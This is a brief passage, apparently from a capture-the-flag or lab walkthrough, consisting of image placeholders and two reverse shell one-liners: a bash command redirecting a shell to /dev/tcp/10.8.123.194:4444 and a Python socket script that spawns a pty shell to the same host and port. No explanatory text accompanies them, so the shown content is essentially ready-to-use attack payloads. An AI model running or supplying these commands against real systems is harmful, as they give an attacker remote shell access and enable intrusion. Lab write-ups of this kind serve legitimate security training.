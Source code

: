 ![](/assets/images/dopsty/image021.png)

- `sh -i >& /dev/tcp/10.8.123.194/4444 0>&1`

![](/assets/images/dopsty/image022.png)

- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.123.194",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
